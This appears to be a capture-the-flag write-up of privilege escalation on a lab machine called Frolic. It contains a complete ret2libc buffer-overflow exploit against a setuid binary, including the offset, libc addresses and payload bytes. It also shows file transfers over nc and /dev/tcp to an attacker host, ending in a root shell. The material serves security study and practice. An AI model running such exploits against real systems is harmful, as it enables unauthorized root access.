

# 15 - PrivEsc

# Setuid rop
```bash
www-data@frolic:/home/ayush/.binary$ ./rop  $(python -c 'print "A"');echo
[+] Message sent: A
www-data@frolic:/home/ayush/.binary$ ./rop  $(python -c 'print "A"*80')
Segmentation fault (core dumped)
```

/home/ayush/.binary/rop is a 32 bit setuid binary. I think it is straightforward. This is the path going to root. 

`rop` prints back the input given as argument. On the second go we see that the program crashes with larger inputs. Let's move the binary to our box for examining as we have more tools at our disposal.

# File Transfer
```bash
┌─[user@parrot]─[10.10.14.7]─[~/htb/frolic/privesc]
└──╼ $ nc -lvp 4444 > rop #  Receiver
listening on [any] 4444 ...
connect to [10.10.14.7] from forlic.htb [10.10.10.111] 35726 


www-data@frolic:/home/ayush/.binary$ cat rop  > /dev/tcp/10.10.14.7/4444 #  Sender 
```


# ASLR is off
```bash
www-data@frolic:/home/ayush/.binary$ cat /proc/sys/kernel/randomize_va_space
0
```

```bash
┌─[user@parrot]─[10.10.14.7]─[~/htb/frolic/privesc]
└──╼ $ checksec  ./rop
[*] '/home/user/htb/frolic/privesc/rop'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000
```

NX is enabled that means we can't just execute instructions from the stack. Stack is flagged as non-executable. We will need to look for other places for code execution. Nevertheless, no canary, no aslr, this should be easy for us.


# vuln




strcpy doesn't care if the buffer is large enough this potentially can ruin the stack, or worse, crash the program.


# Exploit 
```py
┌─[user@parrot]─[10.10.14.7]─[~/htb/frolic/privesc]
└──╼ $ cat exploit.py 
from pwn import * 
import sys


# libc 
libc = 0xb7e19000

# payload
buff = 'A'* 52
system = libc + 0x3ada0
exit = libc + 0x2e9d0
cmd = libc + 0x15ba0b

payload = buff.encode()+ p32(system) + p32(exit) + p32(cmd)
print(payload)
```

buffer is 48 byte long, there is still 4 byte below the return address (ebp) and that adds up to 52 to overwrite the return address.
libc will be dynamically loaded. We can just ask ldd for the address.


# libc address
```bash
www-data@frolic:/home/ayush/.binary$ ldd rop 
        linux-gate.so.1 =>  (0xb7fda000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e19000)
        /lib/ld-linux.so.2 (0xb7fdb000)
```
0xb7e19000 is the address libc will be loaded at every time ``rop`` is run. (to be more precise, libc will be mapped to that virtual address space, it's loaded in memory already there is no need to reload libc)


# System offset 
```bash
www-data@frolic:/home/ayush/.binary$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system@@
   627: 0003ada0    55 FUNC    GLOBAL DEFAULT   13 __libc_system@@GLIBC_PRIVATE
  1457: 0003ada0    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0
```

We want to return2libc for arbitrary code execution, it's safer and easier.

# Exit
```bash
www-data@frolic:/home/ayush/.binary$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep exit@@
   112: 0002edc0    39 FUNC    GLOBAL DEFAULT   13 __cxa_at_quick_exit@@GLIBC_2.10
   141: 0002e9d0    31 FUNC    GLOBAL DEFAULT   13 exit@@GLIBC_2.0

```

After system returns, we want to exit the program without crashing it.

# CMD address
```bash
www-data@frolic:/home/ayush/.binary$ strings -atx /lib/i386-linux-gnu/libc.so.6  | grep  bin/sh
 15ba0b /bin/sh
```
/bin/sh is the argument to "system" and it's already in libc.

# Send the payload to the box
```bash
┌─[user@parrot]─[10.10.14.7]─[~/htb/frolic/privesc]
└──╼ $ python3 exploit.py 
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa0=\xe5\xb7\xd0y\xe4\xb7\x0bJ\xf7\xb7'
┌─[user@parrot]─[10.10.14.7]─[~/htb/frolic/privesc]
└──╼ $ echo -ne 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa0=\xe5\xb7\xd0y\xe4\xb7\x0bJ\xf7\xb7' > /dev/tcp/10.10.10.111/4444
```

# Root
```bash
www-data@frolic:/home/ayush/.binary$ nc -lvp 4444 > /dev/shm/payload
Listening on [0.0.0.0] (family 0, port 4444)
Connection from [10.10.14.7] port 4444 [tcp/*] accepted (family 2, sport 59336)
www-data@frolic:/home/ayush/.binary$ ./rop $(cat /dev/shm/payload)
# id
uid=0(root) gid=33(www-data) groups=33(www-data)

```